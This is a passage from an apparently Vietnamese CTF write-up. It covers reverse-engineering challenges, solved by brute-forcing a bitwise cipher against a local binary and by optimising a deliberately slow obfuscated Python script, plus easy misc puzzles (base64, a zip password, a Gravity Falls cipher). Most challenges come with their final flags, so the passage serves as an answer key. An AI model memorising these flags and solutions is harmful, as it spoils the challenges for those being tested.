    fgets((char*)input, sizeof(input) + 1, stdin);

    for (char i = 0; i < sizeof(input); i++) {
        char tmp[8] = { 0,0,0,0,0,0,0,0 };
        unsigned char result = 0;

        for (char b = 0; b < 8; b++) {
            char bit_1 = (input[i] >> b) & 1;
            char bit_2 = key[b];
            char rs = ISPCLUB(bit_1, bit_2);
            tmp[b] = rs;
        }
        for (char k = 7; k >= 0; k--) {
            result = (result << 1) + tmp[k];
        }
        your_cipher[i] = result;
    }
    for (char i = 0; i < 15; i++) {
        if (your_cipher[i] != cipher[i]) {
            printf("Incorrect!");
            return 1;
        }
    }
    printf("GOOD! HERE IS YOUR FLAG ISPCTF{%s}", input);
}
```
Có vẻ như là thuật toán gì đó đưa user input về lại thành một cái format giống `cipher[]` rồi so sánh

Mình đã thử viết ngược lại rồi nhưng bị kẹt ở phần này `char bit_1 = (input[i] >> b) & 1;` bởi vì không thể suy ngược biwise AND (Chắc là có cách nào khác)

Nhưng mà mình đã nghĩ ra một trò khác. Vì `cipher[]` không bị ảnh hưởng bởi index (như Loop key) nên chúng ta có thể mò xem chữ cái nào tương ứng với số bao nhiêu và từ đó suy ra được flag

Đầu tiên đổi lại `char cipher[]` từ dạng hex sang decimal cho dễ hiểu nha 

```
unsigned char cipher[15] = { 0xe7,0x99,0xdb,0xf6,0x98,0xda,0xf6,0xda,0x99,0xf6,0xe4,0x9d,0xce,0x98,0xca };
//231, 153, 219, 246, 152, 218, 246, 218, 153, 246, 228, 157, 206, 152, 202
```

Bây giờ thì thêm một dòng `printf` thần kì để debug xem chữ nào tương ứng với số nào thôi

```
your_cipher[i] = result;
printf("Your cipher: %i \n", result);
```

Như vậy là được rồi. Nhưng mà mò từng chữ một hơi lâu nên mình viết script python cho tiện nha 

```
import subprocess

#231, 152, 219, 246, 152, 218, 246, 218, 153, 246, 228, 157, 206, 152, 202

printable = list("!#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~'")
cipher = [231, 153, 219, 246, 152, 218, 246, 218, 153, 246, 228, 157, 206, 152, 202]
flag = "ISPCTF{"
for i in cipher:
   for b in printable:
       script = subprocess.Popen("./a.out", stdin=subprocess.PIPE,stdout=subprocess.PIPE)
       res = str(script.communicate(b.encode()))
       if str(i) in res:
          print("{} is {}".format(i, b))
          flag += b
flag+="}"
print(flag)
```

Chạy script python trên là ra được flag rồi (Nhớ compile file C++ đã sửa thành a.out trước nha)
```
python3 brute.py                  
231 is N
153 is 0
219 is r
246 is _
152 is 1
218 is s
246 is _
218 is s
153 is 0
246 is _
228 is M
157 is 4
206 is g
152 is 1
202 is c
ISPCTF{N0r_1s_s0_M4g1c}
```

### 5.5 Lost Obfuscation
Một script rất dài và chạy rất lâu. Script này có vẻ sẽ tự in ra flag chỉ là mất rất lâu mà thôi. Vậy thì phải tối ưu nó

Cách mà mình tìm chỗ quan trọng để tối ưu là hãy chèn một dòng `print()` vào trước phần function call mà bạn nghĩ sẽ chậm thôi. Nếu trên terminal cứ kẹt ở đấy mãi thì có vẻ chỗ đó cần tối ưu. `_0xdeadbeef` là hàm chính nên bắt đầu từ đây nhỉ

```
def _0xdeadbeef():
    v0 = len(c9df35)
    for i in range(v0):
        print("Spend time on 0x4")
        _0x4b891c(b9f01d)
        print("Spend time on 0x4 2nd")
        _0x4b891c(a81cd9)
        print("Spend time on coffee")
        v1 = _0xc00ffee(ac71d0[i])
        print("Spend time on bae")
        _0xbae103(c9df35[i], v1)
        print("Almost there")
        v2 = _0x5be091(v1)
        v2 -= i
        print(chr(v2), flush=True, end = '')
```

Sau khi chạy thì ta thấy script này mắc kẹt ở hàm `_0xc00ffee` là lâu nhất. Vậy thì tối ưu nó trước. Vẫn vậy, chèn thêm `print()` vào trước các dòng có function call của `_0xc00ffee` để xem xem cái gì tốn thời gian nhất
```
def _0xc00ffee(v0):
    v1 = 0
    while (v0 != 1):
        #print("Spend time on v2")
        v2 = _0x3b091c(int(v0))
        #print("Spend time on v0")
        v0 = _0xd11111(v0, v2)
        #print("Spend time on v3")
        v3 = _0xbe4515(b9f01d, v2, v1)
        if (v3 == -1):
            b9f01d[v1] = v2
            a81cd9[v1] += 1
            v1 += 1
        else:
            a81cd9[v3] += 1
    return v1 
```

Sau khi chạy thì ta thấy được `v2` và `v0` là lâu nhất, rồi sau đó sẽ kẹt hẳn ở `v2` luôn. Vậy thì có vẻ như `v0` chậm thì `v2` còn siêu chậm. Phải tối ưu thôi

Bắt đầu từ `v0` trước hay chính là tối ưu hóa hàm `_0xd11111()` 
```
def _0xd11111(v0, v1):
    v2 = 0
    v3 = 0
    while (v2 < v0):
        v2 = v2 + v1
        v3 = v3 + 1
    return v3
```
Nhìn `while()` là đã thấy chậm rồi nhỉ. Nhưng logic của hàm này chỉ là tìm số `v3` nhỏ nhất để `v1 * v3 >= v0` (Mỗi lần loop v1 tự cộng với chính mình còn v3 thì tăng thêm 1. Cuối cùng thì tổng các v1 chính là bằng v1 * v3 chứ còn gì). Vậy thì viết lại ngắn gọn thôi
```
def _0xd11111(v0, v1): 
# Tinh so v3 nho nhat de v1*v3 >= v0 
#(Tức là v0 / v1 nếu ra số nguyên thì thì là =, nếu ra 
#số thập phân mà làm tròn lên tròn lên thì sẽ >)
    v3 = math.ceil(v0 / v1)
    return v3
```
(Nếu vẫn chưa hiểu thì lấy ví dụ nè: v0=50, v1=25. Vậy v3 phải =2 thì sẽ là số nguyên nhỏ nhất làm cho v1 >= v0. Còn giả sử v0=51, v1=25 thì v3 phải =3 thì mới là số nguyên nhỏ nhất để v1 >= v0 (Tức là 51/25 làm tròn lên))

(Ghi vậy mai sau em đọc lại cho dễ hiểu)

Như vậy là từ phải loop đi loop lại thì giờ mọi chuyện chỉ cần giải quyết trong một phép toán ngắn ngọn. Vậy là giải quyết xong `_0xd11111()` và `v0`

Bây giờ đến lượt `v2` hay chính là hàm `_0x3b091c()` cần tối ưu hóa
```
def _0x3b091c(v0):
    v1 = 2
    v2 = v0 
    for i in range(v1, v2):
        if (_0xd22222(v0, i) == 0):
            return i
    return v0
```
Hàm này lại gọi ra hàm `_0xd22222()`. Để xem nào
```
def _0xd22222(v0, v1):
    v2 = 0
    while (v2 <= v0):
        v2 = v2 + v1
    v2 -= v1 
    return v0 - v2
```
Hàm `_0xd22222()` lại dùng loop nhưng thực ra logic của hàm này chỉ là để tìm dư của phép chia v0 / v1 (Hàm này tìm bội của v1 lớn nhất thỏa mãn <= v0 sau đó lấy v0 trừ đi thì chính là phần dư của phép chia v0 /v1). Nếu chỉ vậy thì đâu cần phải loop phức tạp như vậy. Chỉ cần như này là đủ rồi
```
def _0xd22222(v0, v1):
    return v0 % v1
```

Làm đến vậy rồi mà chạy vẫn chưa nhanh hơn là mấy. Vẫn bị kẹt lại ở phần `_0x3b091c()`. Vậy chứng tỏ hàm này vẫn cần phải tối ưu hóa. 
```
def _0x3b091c(v0):
    v1 = 2
    v2 = v0 
    for i in range(v1, v2):
        if (_0xd22222(v0, i) == 0):
            return i
    return v0
```

Nếu nhìn ta sẽ thấy logic của cả hàm này chỉ là tìm số bé nhất chia hết cho `v0` khác 1 (Hàm `_0xd22222()` là dùng để tìm số dư, ở đây là phép chia v0/i. Nếu bằng 0 (chia hết) thì trả về số i). Nếu số `v0` siêu to khổng lồ thì quá trình này mất khá lâu. Mình đã lên mạng để tìm cách tối ưu hóa phép toán này. Và mình tìm thấy đoạn code này ở trên [Stack Overflow](https://stackoverflow.com/questions/6800193/what-is-the-most-efficient-way-of-finding-all-the-factors-of-a-number-in-python)

```
#https://stackoverflow.com/questions/6800193/what-is-the-most-efficient-way-of-finding-all-the-factors-of-a-number-in-python
def factors(n):
    return set(reduce(list.__add__,
                ([i, n//i] for i in range(1, int(n**0.5) + 1) if n % i == 0)))
```
(Đoạn code trên tìm tất cả các số chia hết cho số n. E vẫn hơi gà để hiểu rõ đoạn code trên làm gì)

Bây giờ sửa lại `_0x3b091c()` để sử dụng đoạn code tối ưu bên trên thôi. 
```
def _0x3b091c(v0): #Tim so i trong khoang 2-v0 chia het cho v0
    a = sorted(factors(v0))
    return a[1]
```

Vì đoạn code tối ưu kia trả kết quả không theo thứ tự nào hết nên mình phải sort lại để chọn số bé nhất khác một (Là phần tử thứ 2)

Như vậy chắc là được rồi, chạy thử thôi
```
$ python3 very_fun.py
ISPCTF{d306fu5c4710n_15_5h0r7357_w4y_70_00f3d}  
```

(Mặc dù không nhanh kiểu ngay lập tức nhưng ~1 phút là đủ để kiếm flag rồi hehe)

## 6. Misc
### 6.1 Best Avatar
Cái này đơn giản thôi chỉ cần vào page FB của ISP để ngắm Avatar là được rồi

Flag: `ISPCTF{ISP_cAptu5e_th3_F1a9}`

### 6.2 Base64

Đề bài cho chúng ta một mã QR. Scan thì được như vầy
```
SVNQQ1RGe0g0djNfNF9HMDBEX0Q0eX0=
```
Tên bài đã gợi ý luôn cho chúng ta đây là base64 rồi, chỉ cần giải ra là xong rồi

Flag: `ISPCTF{H4v3_4_G00D_D4y}`

### 6.3 New misc
Đề bài cho chúng ta một file `zip`. Giải nén ra sẽ được một bức ảnh của bác Phạm Văn Đồng (chắc chắn em đã không dùng google lens để tìm) với tiêu đề `Who_is_he` và một file `what.zip` có mật khẩu


Vậy thì mật khẩu hẳn là `Pham Van Dong` rồi. Giải nén file `what.zip` ra ta được 2 file


File `Flag_here.txt` có nội dung
```
Hãy giúp Dipper, Maple và Bốp đánh bại tên Bill Cypher này nhé 
```
Bỏ qua lỗi chính tả, xem tiếp bức ảnh kia xem có gì thú vị không nha


Kia có vẻ là một loại cipher nào đó. Theo kinh nghiệm cày phim và ngồi xem theory trên youtube thì đấy là ký tự riêng của Gravity Falls, tra Google là thấy có bảng giải mã liền nè


Sau khi giải mã ra thì các ký tự trong bức ảnh là `ISPCTFBILLCIPHER`. Viết chuẩn lại theo flag form thì ra flag rồi: `ISPCTF{BILLCIPHER}`


